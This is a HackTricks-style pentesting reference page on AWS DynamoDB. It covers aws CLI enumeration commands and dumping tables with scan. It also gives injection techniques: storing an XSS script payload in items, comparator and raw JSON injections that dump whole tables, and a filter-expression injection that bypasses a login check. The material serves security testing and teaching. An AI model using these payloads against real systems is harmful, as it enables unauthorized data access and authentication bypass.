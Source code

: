 # AWS - DynamoDB Enum

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## DynamoDB

Amazon DynamoDB is a **fully managed, serverless, key-value NoSQL database** designed to run high-performance applications at any scale. DynamoDB offers built-in security, continuous backups, automated multi-Region replication, in-memory caching, and data export tools.

### Enumeration

```bash
# Tables
aws dynamodb list-tables 
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

aws dynamodb describe-continuous-backups \
  --table-name tablename #Check if point in time recovery is enabled
  
# Get 1 example of the indicated attribute to learn its type
aws dynamodb scan --table products \
    --projection-expression "attribute" --max-items 1

## Read
aws dynamodb scan --table-name <t_name> #Get data inside the table
aws dynamodb query \ #Query against the table
    --table-name MusicCollection \
    --projection-expression "SongTitle" \
    --key-condition-expression "Artist = :v1" \
    --expression-attribute-values file://expression-attributes.json \
    --return-consumed-capacity TOTAL

## Create new item with XSS payload
aws dynamodb put-item --table <table_name> --item file://add.json
### With add.json:
{
   "Id": {
      "S": "1000"
   },
   "Name": {
      "S":  "Marc"
   },
   "Description": {
       "S": "<script>alert(1)</script>"
   }
}

## Update item with XSS payload
aws dynamodb update-item --table <table_name> \
    --key file://key.json --update-expression "SET Description = :value" \
    --expression-attribute-values file://val.json
### With key.json:
{
    "Id": {
        "S": "1000"
    }
}
### and val.json
{
    ":value": {
        "S": "<script>alert(1)</script>"
    }
}


# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws --profile prd dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws --profile prd dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```

### GUI

There is a GUI for local Dynamo services like [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), etc, that could be useful: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

## DynamoDB Injection

### SQL Injection

There are ways to access DynamoDB data with **SQL syntax**, therefore, typical **SQL injections are also possible**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injection

In DynamoDB different **conditions** can be used to retrieve data, like in a common NoSQL Injection if it's possible to **chain more conditions to retrieve** data you could obtain hidden data (or dump the whole table).\
You can find here the conditions supported by DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html), note that **different conditions** are supported if the data is being accessed via **`query`** or via **`scan`**.

If you can **change the comparison** performed or add new ones, you could retrieve more data.

```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

**DynamoDB** accepts **Json** objects to **search** for data inside the DB. If you find that you can write in the json object sent to search, you could make the DB dump, all the contents.

For example, injecting in a request like:

`'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'`

an attacker could inject something like:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

fix the "EQ" condition searching for the ID 1000 and then looking for all the data with a Id string greater and 0, which is all.

### :property Injection

Some SDKs allows to use a string indicating the filtering to be performed like:

```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :value and Password = :password").withValueMap(valueMap)
```

You need to know that searching in DynamoDB for **substituting** an attribute **value** in **filter expressions** while scanning the items, the tokens should **begin** with the **:** character. Such tokens will be **replaced** with actual **attribute value at runtime**.

Therefore, a login like the previous one can be bypassed with something like:

```bash
:value = :value or :value
# This will generate the query:
# :value = :value or :value = :value and Password = :password
# which is always true
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

